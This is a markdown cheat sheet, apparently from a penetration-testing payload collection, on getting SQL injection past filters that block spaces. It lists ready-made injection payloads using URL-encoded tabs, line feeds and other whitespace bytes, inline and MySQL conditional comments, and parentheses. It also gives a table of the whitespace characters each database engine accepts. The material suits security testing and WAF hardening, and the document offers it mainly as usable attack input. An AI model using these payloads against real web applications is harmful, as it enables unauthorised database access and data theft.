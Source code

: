## Generic WAF Bypass

---

### No Space Allowed

Some web applications attempt to secure their SQL queries by blocking or stripping space characters to prevent simple SQL injection attacks. However, attackers can bypass these filters by using alternative whitespace characters, comments, or creative use of parentheses.

#### Alternative Whitespace Characters

Most databases interpret certain ASCII control characters and encoded spaces (such as tabs, newlines, etc.) as whitespace in SQL statements. By encoding these characters, attackers can often evade space-based filters.

| Example Payload               | Description                      |
|-------------------------------|----------------------------------|
| `?id=1%09and%091=1%09--`      | `%09` is tab (`\t`)              |
| `?id=1%0Aand%0A1=1%0A--`      | `%0A` is line feed (`\n`)        |
| `?id=1%0Band%0B1=1%0B--`      | `%0B` is vertical tab            |
| `?id=1%0Cand%0C1=1%0C--`      | `%0C` is form feed               |
| `?id=1%0Dand%0D1=1%0D--`      | `%0D` is carriage return (`\r`)  |
| `?id=1%A0and%A01=1%A0--`      | `%A0` is non-breaking space      |

**ASCII Whitespace Support by Database**:

| DBMS         | Supported Whitespace Characters (Hex)            |
|--------------|--------------------------------------------------|
| SQLite3      | 0A, 0D, 0C, 09, 20                               |
| MySQL 5      | 09, 0A, 0B, 0C, 0D, A0, 20                       |
| MySQL 3      | 01–1F, 20, 7F, 80, 81, 88, 8D, 8F, 90, 98, 9D, A0|
| PostgreSQL   | 0A, 0D, 0C, 09, 20                               |
| Oracle 11g   | 00, 0A, 0D, 0C, 09, 20                           |
| MSSQL        | 01–1F, 20                                        |

#### Bypassing with Comments and Parentheses

SQL allows comments and grouping, which can break up keywords and queries, thus defeating space filters:

| Bypass                                    | Technique            |
| ----------------------------------------- | -------------------- |
| `?id=1/*comment*/AND/**/1=1/**/--`        | Comment              |
| `?id=1/*!12345UNION*//*!12345SELECT*/1--` | Conditional comment  |
| `?id=(1)and(1)=(1)--`                     | Parenthesis          |
